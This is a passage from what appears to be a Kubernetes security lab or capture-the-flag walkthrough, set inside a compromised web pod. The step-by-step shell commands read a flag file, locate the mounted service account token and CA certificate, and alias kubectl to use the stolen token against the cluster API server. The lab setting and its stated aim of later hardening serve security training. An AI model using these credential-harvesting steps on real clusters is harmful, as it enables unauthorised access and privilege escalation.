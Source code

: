 40. Type `hostname` to see what pod you've landed in.

    ```shell
    hostname
    ```

41. **Write down the pod name** -- you will need it later on when we harden the cluster.

    ```
    # This is only an example!
    frontend-7c8f6c566-97kfh
    ```

42. View the first flag.  You will likely want to zoom out.

    ```shell
    cat FLAG.txt
    ```

43. Let's get the service account that has been mounted into this container. Type this:

    ```shell
    mount | grep kubernetes
    ```

44. You'll see that the service account credentials are mounted into the container as `/run/secrets/kubernetes.io/serviceaccount`.

45. List that mount point via:

    ```shell
    ls /run/secrets/kubernetes.io/serviceaccount
    ```

46. We will need both the certificate authority file (`ca.crt`) and the token (`token`).

47. The format for the `kubectl` commands we'll be running is like so:

    ```
    # /var/www/html/kubectl --token=TOKENTEXT --certificate-authority=/path/ca.crt \
    # --server=https://kubernetes.default.svc.cluster.local:443 command-text
    ```

48. Let's make things easy on ourselves by eliminating the need to type all of those flags over and over.  We'll put things in variables and use an `alias`.  Type this:

    ```shell
    export DIR="/run/secrets/kubernetes.io/serviceaccount"
    alias kubectl="/var/www/html/kubectl --token=`cat $DIR/token` \
    --certificate-authority=$DIR/ca.crt \
    --server=https://kubernetes.default.svc.cluster.local:443"
    ```
